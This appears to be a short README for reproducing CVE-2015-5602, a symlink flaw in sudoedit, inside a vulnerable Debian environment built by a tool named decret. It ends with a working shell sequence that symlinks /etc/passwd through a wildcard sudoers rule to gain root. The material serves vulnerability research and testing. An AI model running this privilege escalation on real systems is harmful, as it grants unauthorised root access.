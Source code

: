 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python -m decret --number 2015-5602 --directory sudoedit-2015 --choose
```
Decret chooses the wrong version by default, here the `--choose` flag comes in handy, we have to manually choose the version `1.8.10p3-1+deb8u2` for the **jessie** release.

### Simple testing method

```shell
echo "toto ALL=NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su toto
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/toto/demo/test.txt # Should be working
```
You can edit the file and then get root access.
